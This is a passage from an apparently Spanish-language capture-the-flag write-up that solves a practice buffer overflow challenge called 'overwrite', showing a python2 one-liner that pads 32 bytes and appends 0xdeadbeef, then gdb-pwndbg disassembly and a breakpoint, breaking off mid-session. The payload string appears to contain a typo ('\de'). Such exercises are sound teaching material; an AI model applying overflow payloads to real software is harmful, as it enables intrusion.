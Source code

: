 La solución está en pasar dicho valor en hexadecimal. Para facilitar las cosas lo haremos con python2 (python3 a veces da problemas con la conversión). Utilizaremos la siguiente línea:

```python
python -c 'print 32 * "a" + "\xef\xbe\xad\de"' > payload
```

Este comando simplemente creará una cadena con 32 "*a*" seguidas del valor de `deadbeef` en hexadecimal. Como no podemos simplemente copiar y pegar, dirigiremos la salida a un archivo payload, para posteriormente redirigirlo al programa:

```bash
./overwrite < payload
```
```overwrite
yes? good job!!
deadbeef
```

Y ya habríamos resuelto el ejercicio!

#### Análisis con gdb

Ahora vamos a resolver el ejercicio con [[gdb]]-[[pwndbg]]. Para ello abrimos el programa (`gdb-pwndgb overwrite`). Una vez dentro vemos qué funciones hay disponibles con:

```gdb
info functions
```
```gdb
[...]
0x08049192  do_input
0x08049267  main
[...]
```

Vemos una función `do_input`, así que la descompilamos:

```gdb
disassemble do_input
```
```gdb
[...]
0x080491e0 <+78>:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
[...]
```

Vemos que se está aplicando una comparación entre el valor del registro `ebp-0xc` y el valor hexadecimal `0xdeadbeef` (no hubiera hecho falta ver el código para encontrar este valor).

Podemos establecer un *break point* justo antes de la comparación:

```gdb
break *do_input+78
```

Ejecutamos con `run` e introducimos lo que queramos.

```gdb
yes? no
```
